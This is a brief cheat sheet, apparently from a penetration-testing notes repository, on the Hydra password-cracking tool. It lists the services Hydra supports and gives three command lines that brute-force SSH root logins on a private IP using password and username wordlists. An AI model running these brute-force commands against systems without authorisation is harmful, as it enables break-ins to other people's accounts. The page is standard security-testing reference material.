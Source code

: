 #### Introduction

Hydra is a password cracking utility that is very useful for cracking various types of systems. It supports a large number of systems:

Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT), SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

#### Links

Hydra is built into Kali

- https://tools.kali.org/password-attacks/hydra 

#### Usage

Attempting to login into to a remote system (as root) using a set password list

` hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.0.185 `

Attempting to login into to a remote system (as root) using a custom saved password list

` hydra -l root -P passwords.txt -t 6 ssh://192.168.0.185 `

Attempting to login into to a remote system using a custom login list and using a custom saved password list (note the upper case "L"). In this case the two text files are located in the current path (/usr/desktop/)

` hydra -L login.txt -P passwords.txt -t 6 ssh://192.168.0.185 `
